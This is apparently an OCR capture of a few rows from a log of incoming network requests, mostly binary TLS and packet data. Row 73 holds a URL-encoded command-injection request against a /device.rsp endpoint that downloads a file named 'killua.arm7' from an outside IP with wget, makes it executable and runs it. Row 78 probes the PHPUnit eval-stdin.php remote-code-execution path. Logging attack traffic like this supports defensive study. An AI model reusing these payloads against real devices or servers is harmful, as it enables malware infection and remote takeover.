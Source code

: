 |  72 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00M33\x8A@SI7\x9A\x0F\x90nc\xCAt_\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  73 |                     1 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20killua.arm7%3B%20wget%20http%3A%2F%2F176.65.138.28%2Fkittylover321%2Fkillua.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fkillua.arm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  74 |                     1 | \x00\x00\x00\xE0Z\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x05\x01=K\x00\x00\x01\x01K\x00\xA8\xC0T\x05\xDB\x08\xEFu/\x00admin\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x81\x89\x02\x81\x81\x00\xACP\x8B\xE2%\x19=k\x99\xE95\x06&\x01tv\x93\x91/\xC8?\x16\x18\xF8\xD7u\xA4\x18\x96\x01^,\x14wp\xFBx\x09\x82Q\xF4\xA3\xFE\xF7\x0E\xAA:\xDFSj'\x12D}\xAA\xAB3|\xFE\x05g\xA2\x18\xFC\x90\x84\x04%\xE2\x13\xFCd\xC7\xA5[\xB9\x13\x8B\xA9\x99G\xEA\xEA\xCF\xC1\xB6x\xAA@\xF4\xF5D28\x06\xA5\xC9\x13\x12\x15*;\xBF\xE7h\x0ENu\x1A\x189\x15+\x17\xAF\xBA_\xCAz\x13\x89\xD9\x92\xA7\x01k\xFA\xBF\x02\x03\x01\x00\x01                                                                                  |
|  75 |                     1 | \x16\x03\x01\x00\xF2\x01\x00\x00\xEE\x03\x03H\xBDA2K5\x94\x9C,\xD0\xC6\xC9V\xD7\xE7\xBA\x16                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  76 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x038\xE6\xB7\xBB\xC8\x8Cw\xA9\xEB\x8D)\xD4U\x11\xD4[J\x17tL#\x05v\x96%\x8A\x98\x00\xD0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  77 |                     1 | \x16\x03\x01\x00\xEA\x01\x00\x00\xE6\x03\x03y;\x9DI\x05\xF6d\xBD\x85\x03\xAF\xA1\xC8\xD8Q\xEB\xAB\x85\xDE\xA81i\x88\x07\xAC\x0C\xD73\xB1v\xAC\x01 o\x0F \xD6l\x80\x16\xE9\xAF\xA2\xF1\x16R\xD0\xC5\x1F\xBB\x8Fc/\x8F\xCA\x08\x9C0\xDD\xBD\xE0\xC9\xCCQ\x05\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  78 |                     1 | POST /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |